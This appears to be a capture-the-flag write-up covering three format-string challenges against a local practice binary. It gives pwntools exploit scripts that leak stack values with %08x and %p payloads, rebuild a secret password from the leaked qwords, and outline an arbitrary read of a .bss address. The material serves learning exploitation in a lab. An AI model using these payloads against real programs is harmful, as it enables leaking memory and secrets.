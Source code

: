 



## Challenge 1

We'd like to read the 10'th qword off the stack. \
Recall first 6 parameters are stored within registers. Hence, we'll need to insert 15 reading-qword format. The catch is that we wouldn't like to dereference with `%s` illegal addresses. Hence, we would use non-dereferencing format specifier, such as `%08x`. 

```python
p0 = process(BINARY)
payload = b'%08x ' * 15 + b'%s '
payload += (256 - len(payload)) * b'A'
print(b'itay payload:payload')
p0.send(payload)
p0.interactive()
```

## Challenge 2

Now the raw bytes are stored on the stack, instead of a pointer to the goal string. \
This is actually easier, as we don't use any dereferecing-type specifiers, avoiding any crash of the binary.

```python
offset = 19
p0 = process(BINARY)
payload = b'%p ' * 30
payload += (256 - len(payload)) * b'A'
p0.recvuntil(b'Send your data!')
p0.send(payload)
p0.recvuntil(b' call printf on your data!\n\n')
buf = p0.recvuntil(b'What is the secret password?').split(b' ')
print(f'BUF:{buf}')

qword1 = binascii.unhexlify(buf[offset][2:])[::-1]
qword2 = binascii.unhexlify(buf[offset + 1][2:])[::-1]
secret = qword1 + qword2
p0.sendline(secret)
p0.interactive()
```

## Challenge 3

We now want to read the flag off the `.bss` section. \
We can see the address to which the flag is being read to via `strace` (fails as the binary is suid):

```bash
read(-1, 0x404120, 128)                 = -1 EBADF (Bad file descriptor)
```

My approach is to write `0x404120` as part of our input , and reference it as a positional argument via `%X$s`, where X is the position of our inserted address. That way, we would be able to forge an arbitrary read primitive. 
